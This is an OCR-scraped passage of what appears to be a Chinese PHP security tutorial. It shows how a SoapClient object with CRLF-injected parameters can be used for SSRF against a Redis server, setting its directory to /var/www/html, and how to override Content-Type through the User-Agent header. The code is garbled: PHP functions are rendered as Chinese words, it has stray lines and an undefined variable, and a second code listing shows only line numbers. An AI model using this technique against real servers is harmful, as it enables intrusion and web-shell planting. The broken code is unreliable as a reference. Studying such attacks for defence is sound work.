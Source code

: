 
|

    
    
      
    $target = 'http://47.xxx.xxx.72:6379/' ;   
    $poc = "CONFIG SET 目录 /var/www/html" ;   
    $a = new SoapClient( null , array ( 'location' => $target , 'uri' => 'hello^^' . $poc . '^^hello' ));   
    $b = 序列化( $a );   
    $b = str_replace( '^^' , "\n\r" , $b );   
    回声 $b ;  
    $b );   
    $c -> a();    // 随便调用对象中不存在的方法,触发__call方法进行ssrf   
    ?>  
      
  
---|---  
  
`  
`

`执行代码后，如下图所示，成功插入了Redis命令：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084247.png)`

`这样我们就可以利用HTTP协议去攻击Redis了。`

`对于如何发送POST的数据包，这里面还有一个坑，就是`Content-Type`的设置，因为我们要提交的是POST数据，所以`Content-
Type`的值我们要设置为`application/x-www-form-urlencoded`，如何这里修改`Content-
Type`的值呢？由于`Content-Type`在`User-Agent`的下面，所以我们可以通过`SoapClient`来设置`User-
Agent`，将原来的`Content-Type`挤压下去，从而再插入一个新的`Content-Type`。`

`测试代码如下：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10   
    11   
    12   
    13   
    14  
    